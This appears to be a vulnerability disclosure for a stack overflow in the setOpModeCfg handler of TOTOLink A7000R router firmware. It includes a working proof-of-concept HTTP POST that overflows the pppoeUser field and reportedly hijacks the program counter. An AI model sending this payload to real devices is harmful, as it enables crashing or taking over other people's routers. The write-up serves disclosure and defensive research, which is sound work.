







# TOTOLink A7000R V9.1.0u.6115_B20201022has a stack overflow vulnerability

## Overview

- Firmware download address: https://totolink.cn/home/menu/detail.html?menu_listtpl=download&id=9&ids=36
- Manufacturer's website information：https://www.totolink.net/

## Product Information

TOTOLink A7000R V9.1.0u.6115_B20201022 router, the latest version of simulation overview：



## Vulnerability details

setOpModeCfg







V67 is a variable on the stack, while pppoeUser is a user controllable variable. The sprintf function caused a stack overflow

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 78
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/basic/index.html
Cookie: SESSION_ID=2:1700540000:2

{

"topicurl":"setOpModeCfg",

"proto":"3",

"pppoeSpecType":"1",

"pppoeUser":"a"*0x500

}
```



The above figure shows the POC attack effect



As shown in the figure above, we can hijack PC registers.

